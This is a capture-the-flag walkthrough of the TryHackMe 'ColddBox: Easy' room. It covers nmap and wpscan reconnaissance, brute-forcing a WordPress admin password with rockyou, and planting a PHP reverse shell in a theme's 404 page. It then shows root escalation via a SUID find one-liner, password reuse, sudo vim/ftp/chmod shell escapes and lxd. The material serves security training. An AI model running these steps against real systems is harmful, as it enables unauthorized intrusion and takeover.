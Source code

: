 # [ColddBox: Easy](https://tryhackme.com/room/colddboxeasy)

## Getting a shell

First of all, `nmap`

```
# Nmap 7.91 scan initiated Sun Jul 18 06:27:20 2021 as: nmap -vvv -p 80,4512 -sCV -oA init 10.10.200.151
Nmap scan report for box.ip (10.10.200.151)
Host is up, received conn-refused (0.28s latency).
Scanned at 2021-07-18 06:27:21 UTC for 21s

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 18 06:27:42 2021 -- 1 IP address (1 host up) scanned in 22.07 seconds
```

First we'll check out port 80. Scrolling down, we can see that this is a WordPress site, so let's run `wpscan`.

```
$ wpscan --url http://box.ip/ -t 100 -e ap,at,cb,dbe,u1-10,m1-10 -o wpscan
```

From the scan, you should see that the site is using WordPress version 4.1.31 which is marked as insecure, as well as get a few usernames: "c0ldd", "hugo", "philip", and "the cold in person". Let's make note of the usernames for later.


Let's dir-bust

```sh
$ gobuster dir -u http://box.ip/ -w /path/to/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt

/wp-content           (Status: 301) [Size: 305] [--> http://box.ip/wp-content/]
/wp-includes          (Status: 301) [Size: 306] [--> http://box.ip/wp-includes/]
/wp-admin             (Status: 301) [Size: 303] [--> http://box.ip/wp-admin/]
/hidden               (Status: 301) [Size: 301] [--> http://box.ip/hidden/]
/server-status        (Status: 403) [Size: 271]
```

We have a suspicious `/hidden` directory, so let's check it out.

![/hidden](hidden.png)

We see here that the user "c0ldd" seems to be able the change another user's password, meaning they likely have administrative privileges, making them a high-value target. Let's try brute-forcing his password.

```sh
wpscan --url http://box.ip/ -U users -P /path/to/rockyou
```

With this, we have c0ldd's password and can log in. Let's check our current account at `/wp-admin/users.php`.

![users.php](users.png)

As Administrator, we can edit a theme file to get Remote Code Execution. [Here](https://dasith.works/wordpress-admin-to-rce/)'s a good article on the exploit.

To exploit, first, we'll edit a theme's PHP file to add our shell and activate the code. In this case, I'll be changing the 404 page. (Replace `10.10.10.10` with your own IP)

![](rce1.png)
![](rce2.png)
![](rce3.png)

After updating the file with a PHP reverse shell, run a listener and go to `/wp-content/themes/{themename}/{fileyouselected}.php` (in my case, `http://box.ip/wp-content/themes/twentyfifteen/404.php`) to activate the payload and get a shell.

## Privilege Escalation

First thing I do after getting a shell is run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh). A few things in the result stand out:

- The user c0ldd is in the groups adm and lxd and has some interesting processes running
- The file `/var/www/html/wp-config.php` has credentials
- `/usr/bin/find` has a SUID bit

### `find` with SUID

The easiest thing here is `find` with a SUID bit. [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) shows us how to escalate with it.

```sh
/usr/bin/find . -exec /bin/bash -p \; -quit
```

### Password re-use

Looking at `/var/www/html/wp-config.php`, we have credentials for the user "c0ldd".

```sh
$ cat /var/www/html/wp-config.php | grep -iP -A 10 -B 10 password

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', REDACTED);
```

With this password, we're able to log into SSH as c0ldd. Running `sudo -l` gives us a few binaries we can run with `sudo`.

 ```sh
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd:
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

- From inside `sudo vim`, we can get a shell by running `:!/bin/bash`
- With `sudo chmod`, we can change file permissions, as well as give `bash` an SUID bit
- Inside `sudo ftp`, we can get a shell with `!/bin/bash`

Additionally, the user c0ldd is in the `lxd` group which we can use to mount everything in `/` and modify them as root which I did in the room [Gaming Server](https://github.com/ChocolateOverflow/tryhackme-writeups/tree/master/gamingserver).
